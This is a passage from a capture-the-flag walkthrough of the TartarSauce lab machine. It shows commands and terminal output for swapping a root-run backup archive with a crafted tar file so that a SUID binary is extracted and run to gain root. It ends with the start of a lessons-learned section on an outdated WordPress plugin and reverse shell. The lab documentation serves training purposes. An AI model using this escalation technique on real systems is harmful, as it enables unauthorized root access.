 The program generated backup compressed file is .e84f0\*\*\*\*. Replace it with our exploit file.

```text
cp exploit .e84f032e69e2e221528b5c1c2ea7fa946a905584
```

Now we just have to wait for 30 seconds \(sleep time\) before the .e84f0\*\*\*\* tar file \(which is really our exploit file\) is decompressed and saved in the directory check.

```text
onuma@TartarSauce:/var/tmp$ ls -la
total 44
drwxrwxrwt  9 root  root  4096 Jan 18 21:01 .
drwxr-xr-x 14 root  root  4096 Feb  9  2018 ..
-rw-r--r--  1 onuma onuma 2765 Jan 18 21:01 .e84f032e69e2e221528b5c1c2ea7fa946a905584
drwxr-xr-x  3 root  root  4096 Jan 18 21:01 check
-rw-r--r--  1 onuma onuma 2765 Jan 18 11:46 exploit
....
```

Enter the /_check/var/www/html_ directory.

```text
onuma@TartarSauce:/var/tmp$ cd check/var/www/html/
onuma@TartarSauce:/var/tmp/check/var/www/html$ ls -la
total 24
drwxr-xr-x 2 root root  4096 Jan 18 11:24 .
drwxr-xr-x 3 root root  4096 Jan 18 10:09 ..
-rwsr-xr-x 1 root root 15532 Jan 18 11:24 setuid
```

There we’ll see our setuid program with the SUID bit set! The reason the program still has the SUID bit set, is because when the compressed file was decompressed, it was decompressed with root privileges \(the privileges the program was running with\) and therefore, the permissions on the file were preserved.

Run the setuid program.

```text
onuma@TartarSauce:/var/tmp/check/var/www/html$ ./setuid
root@TartarSauce:/var/tmp/check/var/www/html# whoami
root
```

We are root! Grab the _root.txt_ flag.

![](https://miro.medium.com/max/806/1*9SSylldbmqFqkWgQ5yCwNQ.png)

## Lessons Learned <a id="d067"></a>

To gain an initial foothold on the box we exploited one vulnerability.

1. Use of known vulnerable components. The WordPress application was using an outdated plugin which was vulnerable to RFI. This allowed us to run a reverse shell back to our attack machine. The administrator should have updated the plugin to the most recent version.

To escalate privileges we exploited two vulnerabilities.

